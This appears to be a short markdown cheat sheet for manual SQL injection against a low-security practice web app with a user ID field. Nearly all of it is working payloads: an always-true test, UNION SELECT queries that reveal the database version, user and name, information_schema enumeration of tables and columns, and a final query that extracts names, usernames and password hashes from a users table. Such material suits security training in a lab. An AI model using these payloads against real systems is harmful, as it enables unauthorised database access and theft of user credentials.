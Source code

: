 # Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash %' or '1'='1 ```
 (Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash %' or 0=0 union select null, version() # ```  (# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash %' or 0=0 union select null, user() # ```

### DB name employed to this particular site
```bash %' or 0=0 union select null, database() # ```

### Displaying tables as information scema
```bash%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # ```


[guessing table name start with prefix user and then anything could be...]

```bash %' and 1=0 union select null, table_name from information_schema.tables # ``` [displaying all the tables]

### Interest Zone--Users Table-->
```bash %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # ```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information
```bash %' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # ```
